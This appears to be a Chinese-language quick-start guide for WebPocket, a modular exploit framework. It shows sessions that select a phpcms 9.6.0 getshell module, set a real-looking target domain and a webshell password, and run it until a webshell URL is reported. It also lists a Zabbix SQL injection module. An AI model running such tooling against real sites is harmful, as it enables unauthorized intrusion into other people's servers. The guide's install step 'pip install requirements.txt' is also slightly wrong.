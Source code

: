 ==================
快速入门
==================


下载 && 安装
==================

首先克隆最新的代码到本地 ::

    git clone https://github.com/TuuuNya/WebPocket

然后安装Python所需的模块 ::

    pip install requirements.txt

如果要使用虚拟环境可自行安装virtualenv等Python虚拟环境。

执行如下命令，如果看到WebPocket的Banner则为安装完成。 ::

    python WebPocket.py
    ➜ python3 WebPocket.py

    W)      ww         b)      P)ppppp                  k)               t)
    W)      ww         b)      P)    pp                 k)             t)tTTT
    W)  ww  ww e)EEEEE b)BBBB  P)ppppp   o)OOO   c)CCCC k)  KK e)EEEEE   t)
    W)  ww  ww e)EEEE  b)   BB P)       o)   OO c)      k)KK   e)EEEE    t)
    W)  ww  ww e)      b)   BB P)       o)   OO c)      k) KK  e)        t)
     W)ww www   e)EEEE b)BBBB  P)        o)OOO   c)CCCC k)  KK  e)EEEE   t)T




    (✿ ♥‿♥)   WebPocket has 2 modules

    WebPocket >

常用命令
==================

首先执行 ``python WebPocket.py`` 进入交互式命令行。

help
-----------

输入 ``help`` 可查看所有命令 ::

    WebPocket > help

    Documented commands (type help <topic>):

    Core Command
    ============
    banner  db_rebuild

    Module Command
    ==============
    back  check  exploit  list  reload  run  search  set  show  use

    Other
    =====
    help  history  quit

    WebPocket >

``help`` 后可跟WebPocket命令，用来查看WebPocket命令的作用 ::

    WebPocket > help  quit
    Usage: quit [-h]

    Exit this application

    optional arguments:
      -h, --help  show this help message and exit

    WebPocket >

list
-------------

``list`` 命令用来列出所有可用的模块 ::

    WebPocket > list
    Module List:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/zabbix_2_0_3_sqli               False    2016-08-22         zabbix 2.0.3 jsrpc.php sqli
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    WebPocket >

注：WebPocket启动时会自动创建sqlite数据库，位于 ``database/`` 目录下， ``search`` 命令是从数据库中取出的数据。
如果添加或删除了模块，需要执行 ``db_rebuild`` 重新构建数据库以用于检索。

search
----------

``search`` 命令用来检索模块，可根据 ``name``, ``module_name``, ``description``, ``author``, ``disclosure_date``, ``service_name``, ``service_version``, ``check`` 字段来进行检索。

默认按 ``module_name`` 检索，比如： ::

    WebPocket > search phpcms
    Search results:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The search is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

支持多个关键词，使用方法如下: ::

    WebPocket > search service_name=phpcms  service_version=9.6.0
    Search results:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The search is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

use
----------

``use`` 命令用于选择要使用的模块： ::

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

show
----------

``show`` 命令可用于查看模块信息，支持 ``info``, ``options``, ``missing`` 子命令。

 * ``show info`` 命令用于查看模块信息以及模块参数
 * ``show options`` 命令用于查看模块参数
 * ``show missing`` 命令用于查看必填却没有填写的参数

使用样例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show info
    Module info:

               name:  phpcms 9.6.0 register getshell
        description:  phpcms 9.6.0 register page getshell
             author:  ['unknown']
         references:  ['https://www.hackersb.cn/hacker/219.html']
    disclosure_date:  2017-04-14
       service_name:  phpcms
    service_version:  9.6.0

    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show missing
    Missing Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

set
----------

``set`` 命令用于设置模块参数，格式为：``set name value``，使用案例如下: ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

check
----------

``check`` 方法用于检测目标是否存在该模块所对应的漏洞。可理解为验证漏洞（POC）。

使用案例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > check
    [+] Check success!
    [+] Target http://www.hackersb.cn has vul
    [*] module execution completed
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

exploit / run
---------------

``exploit`` 命令等同于 ``run`` ，用于执行模块/Exploit

使用案例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > exploit
    [+] Exploit success!
    [+] Webshell: http://www.hackersb.cn/shell.php
    [*] module execution completed
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

back
----------

``back`` 命令用于取消选中的模块，和 ``use`` 命令相反。

reload
----------

``reload`` 命令用于重新加载模块，比如在执行WebPocket以后，修改了模块代码，需要重新加载最新的代码，可以使用该命令。

